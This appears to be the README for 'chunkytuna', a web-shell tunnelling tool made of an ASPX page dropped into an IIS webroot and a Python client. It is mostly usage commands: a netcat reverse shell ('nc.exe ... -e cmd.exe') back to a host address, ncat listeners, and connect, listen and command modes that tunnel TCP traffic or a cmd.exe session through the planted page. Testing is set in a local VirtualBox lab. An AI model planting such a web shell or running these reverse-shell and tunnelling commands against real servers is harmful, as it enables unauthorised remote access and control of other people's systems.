 Usage
=====

Just drop the file in the webroot.

Tested with: 
 * Windows Server 2012 + IIS (chunkytuna.aspx)
 * Windows Server 2008 + IIS (chunkytuna-asp20.aspx) for ASP.NET 2.0.x


Testing
=======

Installation and configuration
------------------------------

 1. Download and run a windows server evaluation version
 1. Install IIS and ASP.NET

Virtualbox-specific instructions:

 1. mount this directory as a shared folder
 2. configure virtualbox to use host-only networking, then

	ifconfig vboxnet0 192.168.56.1
	iptables -i vboxnet0 -A INPUT -p tcp --dport 12345 -j ACCEPT

 3. run a reverse shell so it's easy to restart the server (for testing)

	nc.exe 192.168.56.1 12345 -e cmd.exe

 4. to copy chunkytuna aspx into wwwroot use:

	a.bat 
 
 The batch file copies 'chunkytuna.aspx' into C:\inetpub\wwwroot\ and restarts IIS

Quickstart in Connect mode
--------------------------

 5. Make sure your firewall allows inbound connections...

	iptables -i vboxnet0 -A INPUT -p tcp --dport 1234 -j ACCEPT

 6. Run a listener on the host:

    ncat -lnkvp localhost 1234

 7. Run chunktuna:

    python chunkytuna.py http://192.168.56.101:80/chunkytuna.aspx C -t 192.168.56.1:1234 -r 127.0.0.1:12346 -d
 
 8. Connect to chunkytuna:

    ncat localhost 12346

Or use ssh:

    # (make sure virtualbox can connect to port 22 of the host and that sshd is running...)
    python chunkytuna.py http://192.168.56.101:80/chunkytuna.aspx C -t 192.168.56.1:22 -r 127.0.0.1:12346
    ssh localhost -p 12346


Quickstart in listening mode:
-----------------------------

    # bind to 0.0.0.0:1234 (on the windows server)
    python3 chunkytuna.py http://192.168.56.101:80/chunkytuna.aspx L -t 0.0.0.0:12345 -r 127.0.0.1:1234
    # then open a listener locally
    ncat -lnvkp 1234
    # then connect to the remote
    ncat 192.168.56.101 12345
    # python will connect to port 1234 and transmit data

Command mode:
-------------

    python3 chunkytina.py http://192.168.56.101:80/chunkytuna.aspx X -t "cmd.exe" -r 127.0.0.1:12345
    nc localhost 12345
